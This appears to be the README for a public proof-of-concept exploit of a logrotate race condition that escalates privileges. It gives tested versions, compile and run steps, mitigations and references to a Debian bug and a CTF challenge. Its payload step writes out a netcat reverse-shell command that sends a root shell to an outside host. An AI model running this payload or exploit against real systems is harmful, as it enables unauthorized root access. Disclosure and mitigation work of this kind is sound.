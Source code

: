 # Winning a race condition in logrotate to elevate privileges

## Brief description
  - logrotate is prone to a race condition vulnerability when it's exectued with
    "create"-option.
  - If logrotate is executed as root, with the "create"-option and the user
    is in control of the logfile path, it is possible to abuse a race-condition 
    to write files in ANY directories.
  - An attacker could elevate his privileges by writing reverse-shells into 
    directories like "/etc/bash_completition.d/".
  - This vulnerability was reported by Marc Haber at the debian bug report
    ( https://bugs.debian.org/cgi-bin/bugreport.cgi?bug=400198 )
  - and an issue was opened at the logrotate github-repository by cgzones
    ( https://github.com/logrotate/logrotate/issues/216 )
  - This vulnerability was also a challenge at the 35c3 CTF 
    ( https://ctftime.org/event/718 )
  - A detailed description and a PoC of this challenge was written by the 
  - nsogroup ( https://blog.nsogroup.com/logrotate-zajebiste-500-points/ )

## Tested version
  - Debian GNU/Linux 9.5 (stretch)
  - logrotate 3.15.0

## Compile
  - gcc -o logrotten logrotten.c

## Prepare payload
```
echo "if [ `id -u` -eq 0 ]; /bin/nc -e /bin/bash myhost 3333 &; fi" > payloadfile
```

## Run exploit
```
./logrotten /tmp/log/pwnme.log payloadfile
```

## Mitigation
  - make sure that logpath is owned by root
  - or use option "nocreate"

## Author
  - Wolfgang Hotwagner

## Contact
  - https://tech.feedyourhead.at/content/abusing-a-race-condition-in-logrotate-to-elevate-privileges


